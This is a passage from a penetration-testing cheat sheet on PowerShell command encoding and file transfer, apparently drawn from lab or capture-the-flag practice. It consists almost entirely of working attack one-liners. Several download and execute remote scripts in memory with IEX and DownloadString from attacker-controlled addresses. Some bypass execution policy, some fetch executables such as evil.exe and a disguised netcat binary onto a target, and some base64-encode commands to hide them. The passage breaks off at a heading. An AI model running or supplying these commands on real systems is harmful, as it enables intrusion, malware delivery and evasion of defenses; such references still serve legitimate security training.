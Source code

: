 ```powershell
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

## Encode PS commands from Linux

```powershell
kali> echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0
PS> powershell -EncodedCommand <Base64>
```

---

# File Transfer

## On disk

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

# Inside PS
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
```

## In memory

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile - #From cmd download and execute
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
iex (iwr '10.10.14.9:8000/ipw.ps1') #From PSv3

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://10.10.14.9:8000/ipw.ps1',$false);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://10.10.14.9:8000/ipw.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Using b64 from linux
